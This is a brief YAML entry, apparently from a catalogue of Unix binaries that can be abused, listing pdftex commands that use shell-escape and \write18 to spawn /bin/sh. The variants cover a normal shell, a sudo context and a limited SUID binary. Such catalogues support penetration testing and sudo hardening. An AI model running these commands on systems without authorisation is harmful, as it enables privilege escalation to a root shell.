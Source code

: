 ```yaml
---
functions:
  shell:
    - code: |
        pdftex --shell-escape '\write18{/bin/sh}\end'
  sudo:
    - code: |
        sudo pdftex --shell-escape '\write18{/bin/sh}\end'
  limited-suid:
    - code: |
        ./pdftex --shell-escape '\write18{/bin/sh}\end'
---
```

